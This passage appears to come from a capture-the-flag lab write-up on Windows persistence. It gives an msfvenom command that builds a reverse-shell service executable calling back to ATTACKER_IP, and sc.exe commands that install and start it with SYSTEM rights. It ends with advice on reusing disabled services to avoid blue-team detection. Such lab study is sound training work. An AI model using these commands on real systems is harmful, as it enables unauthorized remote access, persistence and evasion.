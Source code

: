 ```ps
sc.exe create THMservice binPath= "<payload>" start= auto
```

- Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system.

##### 2. If you want to create an executable that is compatible with Windows services, you can use the "`-f exe-service`" format in `msfvenom`.

`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe`

##### 3. Downloading the `.exe` file into the victim's machine:
- Create a python server in the attacker's machine so the victim's machine could download the file:

![](/assets/img/Pasted image 20230107201600.png)

![](/assets/img/Pasted image 20230107201831.png)

##### 4. You can then copy the executable to your target system, say in `C:\Windows` and point the service's ***binPath*** to it:
`> sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto`
`> sc.exe start THMservice2`

![](/assets/img/Pasted image 20230107201946.png)

<u>Attacker's Point of View</u>:

![](/assets/img/Pasted image 20230107202043.png)

	- Remember that when service executes their operations, it has the SYSTEM privileges. Look at the notes from Windows Privilege Escalation.

- Also notice that when the service runs it operation, it stops for some reason:

![](/assets/img/Pasted image 20230107202148.png)

##### Getting the Flag:

![](/assets/img/Pasted image 20230107202223.png)


### B. Modifying Existing Services

- While `creating new services` for persistence works quite well, the blue team may monitor new service creation across the network.
- We may want to reuse an existing service instead of creating one to avoid detection.
- Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.
